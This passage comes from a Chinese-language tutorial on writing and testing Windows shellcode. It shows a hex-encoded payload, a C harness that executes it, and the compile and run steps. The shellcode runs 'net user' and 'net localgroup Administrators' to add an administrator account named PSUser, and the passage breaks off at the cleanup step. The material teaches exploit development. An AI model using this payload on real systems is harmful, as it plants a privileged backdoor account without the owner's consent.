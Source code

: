这产生一个可以被使用于一个 c 程序内的字符数组.

输出的每个十六进制的号码（0xXX）在 shellcode 内代表一个字节.

我们将使用”xxd-shellcode.sh”脚本来去除可以直接地放入我们的“shellcodetest.c”程序中的半成品 shellcode,正如我们在上一个教程中做的那样，在下面将会展示:

> ./xxd-shellcode.sh adduser.bin \xeb\x16\x5b\x31\xc0\x50\x53\xbb\xb5\x15\x86\x7c\xff\xd3\x31\xc0\x50\xbb\x82\xca\x81\x7c\xff\xd3\xe8\xe5\xff\xff\xff\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x50\x53\x55\x73\x65\x72\x20\x50\x53\x50\x61\x73\x73\x77\x64\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x2f\x41\x44\x44\x20\x50\x53\x55\x73\x65\x72\x00 Testing the shellcode

测试 shellcode

使用”shellcodetest.c”程序来测试我们的 shellcode.这个步骤的目的是为了把我们的 shellcode 插入到一个 c 程序中,然后可以编译并执行这个 c 程序.为了执行我们的 shellcode,这个程序已经设计好了.

这样做之前,需要把你的 shellcode 插入（从上个步骤生成的）到这个程序中.你把它放到”code[]”数组的引号之间.最后应该看起来像如下代码中所示的那样:

```
+----------------- Start updated shellcodetest.c -----------------+
/*shellcodetest.c*/
char code[] = "\xeb\x16\x5b\x31\xc0\x50\x53\xbb\xb5\x15\x86\x7c\xff\xd3\x31\xc0\x50\xbb\x82\xca\x81\x7c\xff\xd3\xe8\xe5\xff\xff\xff\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x50\x53\x55\x73\x65\x72\x20\x50\x53\x50\x61\x73\x73\x77\x64\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x2f\x41\x44\x44\x20\x50\x53\x55\x73\x65\x72\x00";
int main(int argc, char **argv)
{
int (*func)();
func = (int (*)()) code;
(int)(*func)();
}
+----------------- End updated shellcodetest.c -----------------+ 
```

我们现在需要编译已经修改好的 shellcodetest.c 程序以使它可以执行我们的 shellcode.可以用如下命令完成:

> gcc -o shellcodetest shellcodetest.c

创建可执行程序”shellcodetest.exe”.

在运行这个程序之前,会想在你的本地系统上通过运行以下命令来列出用户的账户

> net user     (列出在你系统上的本地账户)

你现在应该可以通过这个测试程序来执行你的 shellcode 了.这个 shellcode 被设计来在你的系统上添加一个具有管理员权限的用户（称作”PSUser”）,然后它会干净利索地退出

> ./shellcodetest.exe   The command completed successfully. 命令成功完成   (添加用户账户) 命令成功完成   (添加用户账户到管理组)   (干净利索地退出)

现在可以通过再次运行”net user”命令确认是否已经创建了账户,正如如下所示:

> net user     (列出本地系统的账户现在包含 PSUser 这个账户了)

整理

你应该查明你是否已经从你的系统中删除了这个账户,以确保该账户不会被人用来黑进你的系统.可以使用以下命令完成:
